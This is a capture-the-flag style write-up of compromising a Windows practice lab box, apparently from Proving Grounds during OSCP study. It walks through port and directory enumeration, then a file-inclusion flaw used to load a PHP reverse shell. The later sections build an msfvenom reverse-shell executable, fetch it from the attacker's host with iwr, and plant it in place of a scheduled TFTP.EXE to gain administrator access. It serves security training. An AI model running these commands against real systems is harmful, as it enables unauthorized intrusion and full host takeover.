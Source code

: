 > Noamro08 - 8 Feb 2024

### Target: 192.168.153.53

---
## Enumeration:

nmap scan - default scripts, services,m Top-1000-ports:
```bash
nmap -Pn -n -A 192.168.153.53 -oN scan.inital
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-08 22:03 IST
Nmap scan report for 192.168.153.53
Host is up (0.084s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3306/tcp open  mysql?
| fingerprint-strings: 
|   NULL, SIPOptions, TerminalServerCookie: 
|_    Host '192.168.45.161' is not allowed to connect to this MariaDB server
4443/tcp open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.153.53:4443/dashboard/
8080/tcp open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.153.53:8080/dashboard/
|_http-open-proxy: Proxy might be redirecting requests
```

all-ports:
```bash
nmap -Pn -n -p- 192.168.153.53 -oN all.ports --min-rate=5000
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-08 22:05 IST
Nmap scan report for 192.168.153.53
Host is up (0.081s latency).
Not shown: 65521 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
4443/tcp  open  pharos
5040/tcp  open  unknown
8080/tcp  open  http-proxy
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

fuzzing dirs with ffuf on port 4443:
```bash
(kali㉿kali)-[~/…/oscp/PG/practice/slort]
└─$ ffuf -u http://192.168.157.53:8080/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -c

site                    [Status: 301, Size: 346, Words: 22, Lines: 10, Duration: 80ms]
```

## LFI: 
checking this "/site" we can see that potentially maybe there is an LFI:
![[Pasted image 20240209104657.png]]
in "?page=main.php"

so we try to get the "c:\Windows\System32\Drivers\etc\hosts" to verify this LFI:
![[Pasted image 20240209104834.png]]
it works there is an LFI, so maybe also RFI?
## RFI:

open http.server with python and testing it:
![[Pasted image 20240209105040.png]]
there is an RFI also.... so we can to get a rev shell from it

## Rev Shell:
creating php rev shell [PHP ivan Sincek](https://www.revshells.com/) after pentest monkey and others did not work:

now starting http.server with python, open nc listener and get this file to run on the target (php files executing by default):
![[Pasted image 20240209110918.png]]
<font color="#92d050">we get the rev shell!</font>
`cat C:\Users\rupert\Desktop\local.txt`

## PrivEsc:
in C:\ we can see abnormal directory "C:\Backup":
![[Pasted image 20240209114722.png]]
there we can see info.txt file:
```cmd
C:\Backup>type info.txt
type info.txt
Run every 5 minutes:
C:\Backup\TFTP.EXE -i 192.168.234.57 get backup.txt
```
interesting so if we can change this 'TFTP.EXE' to rev.exe file and it run by system we will get an system privileges shell:

i change this file name:
`ren TFTP.EXE TFTP.EXE_old`

and now i get the rev.exe on this machine:
* `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.152 LPORT=80 -f exe > rev.exe`
		creating the rev shell with msfvenom
* `mv rev.exe TFTP.EXE`
		changing the name of this file to 'TFTP.EXE'
* `python3 -m http.server 8081`
		open http.server
* `iwr http://192.168.45.152:8081/TFTP.EXE -out TFTP.EXE`
		  downloading the rev shell on the target with 'iwr'

now before that we opened a nc listener and we just need to wait 5 minutes:
![[Pasted image 20240209115421.png]]
<font color="#92d050">we got administrator privileges! </font>